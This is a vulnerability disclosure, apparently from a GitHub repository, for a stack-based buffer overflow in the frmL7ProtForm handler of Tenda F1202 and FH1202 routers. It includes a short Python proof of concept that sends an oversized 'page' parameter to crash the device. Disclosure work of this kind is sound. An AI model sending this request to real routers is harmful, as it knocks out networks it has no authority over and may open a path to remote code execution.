


# Tenda Router Vulnerability:F1202,FH1202

This vulnerability lies in the `/goform/frmL7ProtForm` page which influences the lastest version of Tenda Router F1202,FH1202. (The latest version is [F1202V1.0BR_V1.2.0.20(408)](https://www.tenda.com.cn/download/detail-2671.html))[FH1202_V1.2.0.19_EN](https://www.tendacn.com/us/download/detail-2693.html)

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `page`.

In function `frmL7ProtForm` it reads 1 user provided parameters `page` into `v10`, and the variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `v15`.



So by requesting the page `/goform/frmL7ProtForm`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/frmL7ProtForm?"
url += "page=" + "s" * 0x200

response = requests.get(url)
```

## Timeline

* 2022-06-29: Report to CVE & CNVD;


## Acknowledge
